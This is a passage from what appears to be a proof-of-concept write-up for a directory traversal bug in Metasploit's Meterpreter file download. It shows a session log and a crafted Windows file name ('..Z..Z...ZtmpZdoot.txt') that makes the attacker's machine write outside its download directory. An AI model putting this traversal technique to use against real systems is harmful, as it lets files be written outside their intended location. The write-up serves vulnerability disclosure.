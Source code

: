 Run the stageless Meterpreter payload on a remote machine to initiate a
session:

```text
[*] Meterpreter session 1 opened (172.18.0.5:4444 -> 172.17.24.85:49271) at 2016-12-29 21:50:19 +1000
```

6\. Create a malicious directory for download

We know that the patched Meterpreter will replace the character `Z` with `/`
within filenames. To trigger the vulnerability, we'll create a directory layout
as follows:

```text
C:\
|
|-- Users\
   |
   |-- Justin\
      |
      |-- Desktop\
          |
          |-- tasty_loot
              |
              |-- ..Z..Z..Z..Z..Z..Z..Z..Z..Z..ZtmpZdoot.txt
```

Metasploit, when told to download `C:/Users/Justin/Desktop/tasty_loot/`, will
enumerate the contents of the directory and will attempt to download the file
named
`C:/Users/Justin/Desktop/tasty_loot/../../../../../../../../../../tmp/doot.txt`
to `$DESTINATIONDIR/../../../../../../../../../../tmp/doot.txt` which will
trigger the directory traversal vulnerability.

For this to work, we need to ensure that
`C:/Users/Justin/Desktop/tasty_loot/../../../../../../../../../../tmp/doot.txt`
(i.e. `C:/tmp/doot.txt`) exists on the Windows system. This is a very rough
POC, driven somewhat by a crazy state of our own filesystem as an attacker. Our
directory layout will end up being:

```text
C:\
|
|-- Users\
|  |
|  |-- Justin\
|     |
|     |-- Desktop\
|         |
|         |-- tasty_loot
|             |
|             |-- ..Z..Z..Z..Z..Z..Z..Z..Z..Z..ZtmpZdoot.txt
|-- tmp\
    |
    |-- doot.txt
```
